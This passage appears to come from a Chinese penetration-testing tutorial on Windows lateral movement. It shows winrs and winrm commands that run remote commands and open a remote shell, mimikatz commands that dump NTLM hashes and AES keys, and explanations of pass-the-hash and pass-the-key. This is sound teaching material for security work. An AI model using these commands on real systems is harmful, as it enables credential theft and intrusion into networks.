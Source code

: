 winrs 是 Windows 上远程管理提供的客户端程序，允许通过提供的用户凭据，在运行 WinRM 的服务器上执行命令。要求通信双方都安装了 WinRM 服务。

```bash
# 执行系统命令 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "whoami" 
# 获取远程交互式命令行 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "cmd"
```

## [**Winrm.cmd**](#toc_winrmcmd)

winrm.cmd 允许 WMI 对象通过 WinRm 传输进行远程交互，在本地或远程计算机上枚举 WMI 对象实例或调用 WMI 类方法。比如可以通过调用 Win32\_Process 类的 Create 方法来创建远程实例。

```bash
winrm invoke create wmicimv2/win32_process -SkipCAcheck -skipCNcheck @{commandline="notepad.exe"} -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@
```

## [Evil-Winrm](#toc_evil-winrm)

[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

# [PTH&PTK&PTT（hash、key、ticket 传递）](#toc_pthptkptthashkeyticket)

```bash
PTH(pass the hash)   #利用 LM 或 NTLM 的值进行的渗透测试
PTT(pass the ticket)  #利用的票据凭证 TGT 进行的渗透测试
PTK(pass the key)   #利用的 ekeys aes256 进行的渗透测试
```

**PTH 和 PTK**

PTH 在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过 LM Hash 和 NTLM Hash 访问远程主机或服务，而不用提供明文密码。

**如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可以攻击成功**。对于 8.1/2012r2，安装补丁 **kb2871997** 的 Win 7/2008r2/8/2012 等，可以使用 AES keys 代替 NT hash 来实现 ptk 攻击

```bash
# mimikatz
privilege::debug      
# NTLM
sekurlsa::logonPasswords     
# AES
sekurlsa::ekeys
```

**总结：KB2871997 补丁后的影响**

[https://www.freebuf.com/column/220740.html](https://www.freebuf.com/column/220740.html)

**PTH：打补丁前任意用户都可以连接，打了补丁后只能 administrator 用户才可以连接**

**PTK：打补丁前不能连接，打补丁后才能任意用户都可以连接（采用 aes256 连接）**

[![img](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/202402170559544.png)](https://storage.tttang.com/media/attachment/2023/05/09/d8ba59d2-557c-4c35-bbf9-7cdd80593836.png)
